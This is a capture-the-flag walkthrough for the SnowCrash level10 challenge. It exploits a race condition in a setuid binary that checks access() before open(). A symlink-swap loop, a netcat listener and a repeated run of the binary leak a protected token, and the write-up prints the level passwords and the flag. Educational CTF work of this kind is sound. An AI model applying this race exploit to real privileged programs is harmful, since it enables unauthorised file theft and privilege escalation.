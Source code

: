 `su level10 -> s5cAJpM8ev6XHw998pRWG728z`

We have a binary owned by flag10 and a token impossible to read:

```bash
level10@SnowCrash:~$ ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

Try to run the binary:

```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

Try something without port information:

```bash
level10@SnowCrash:~$ ./level10 token  0.0.0.0
You don't have access to token
```

Try with a file with good permissions:

```bash
level10@SnowCrash:~$ echo 42 > /tmp/42
level10@SnowCrash:~$ ./level10 /tmp/42  0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```

Now we know the port is `6969`. We can try to send the file to netcat server.
To do this we need to run netcat server in a terminal and send the file in another terminal.

- send the file:

```bash
level10@SnowCrash:~$ ./level10 /tmp/42  0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!
```

- netcat server:

```bash
level10@SnowCrash:~$ nc -l 6969
.*( )*.
42
```

It's working but not with the token. Check what it's doing with ltrace with `/tmp/42`:

```bash
level10@SnowCrash:~$ ltrace ./level10 /tmp/42  0.0.0.0
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>)
access("/tmp/42", 4)
printf("Connecting to %s:6969 .. ", "0.0.0.0")
fflush(0xb7fd1a20Connecting to 0.0.0.0:6969 .. )
socket(2, 1, 0)
inet_addr("0.0.0.0")
htons(6969, 1, 0, 0, 0)
connect(3, 0xbffff71c, 16, 0, 0)
write(3, ".*(
printf("Connected!\nSending file .. "Connected!)
)
fflush(0xb7fd1a20Sending file .. )
open("/tmp/42", 0, 010)
read(4, "42\n", 4096)
write(3, "42\n", 3)
puts("wrote file!"wrote file!
)
+++ exited (status 12)
```

The binary check first if our user can read the file and then open it and write in the socket.
We can exploit a **race condition** because the socket thinks are executed after the access and it take long time.
To do this we need to:

1- Listen with netcat

```bash
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v ".*( )*."; done
woupa2yuojeeaaed06riuj63c
```

-2 Create a file where we can access / delete it / create a symlink between the file and token:

```bash
level10@SnowCrash:~$ while true; do touch /tmp/42; rm -rf /tmp/42; ln -s $PWD/token /tmp/42; rm -rf /tmp/42; done
```

3- Send `/tmp/42` to the server a lots of times:

```bash
level10@SnowCrash:~$ while true ; do ./level10 /tmp/42 0.0.0.0 2> /dev/null; done
```

Then we get the token mulitple times:

```bash
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v ".*( )*."; done
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

Connect with this:

```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
